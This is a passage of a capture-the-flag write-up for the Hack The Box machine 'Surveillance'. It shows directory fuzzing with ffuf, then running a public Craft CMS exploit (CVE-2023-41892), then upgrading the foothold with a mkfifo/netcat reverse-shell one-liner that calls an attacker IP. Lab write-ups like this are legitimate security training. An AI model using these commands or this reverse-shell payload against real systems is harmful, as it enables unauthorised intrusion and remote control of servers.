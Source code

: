 
# Enumeration

Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2f7e2d82-43bb-4793-9980-3c8878e19be9)

Add `surveillance.htb` to your `/etc/hosts` file

Now, lets navigate to the webpage again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1b1f0f88-f6a5-447b-92c3-0b5669d36a1f)

Cool. Lets fuzz for directories using ffuf

command:`ffuf -u "http://surveillance.htb/FUZZ" -w /usr/share/wordlists/dirb/common.txt  -e .zip,.sql,.php,.phtml,.bak,.backup`

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae99880d-a231-4e8a-b26b-c5b089e7d69e)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/617e77ea-0a6c-4511-9ef2-2cb0ac50e984)

oops, that's a lot of directory. The juicy one here would be `admin`.

Lets navigate to the `/admin` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/17ae1f10-4885-426a-8811-027d993ed849)

We have a login page, we can also see that the page is running on `craft cms`. Doing a quick research found a public exploit for this cms

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bfde5551-74c1-4ca3-81b6-8a2311f36440)

Lets go ahead to exploit this


# Exploitation

You can download the exploit from [here](https://github.com/Faelian/CraftCMS_CVE-2023-41892/blob/main/craft-cms.py)

To run the exploit

command:`python exploit.py http://surveillance.htb/`

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/87fd2425-c6bc-4c88-9843-5a67a0e4dc73)

We spawned a shell hehe. Lets get a proper shell by using the payload below

payload:`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.165 1234 >/tmp/f`

Ensure you edit the LHOST and the LPORT to that which applies to your attacking machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/75a6bca6-290c-43d6-b33f-28ed09cbdc1e)

To stabilize the shell you can use the commands  below
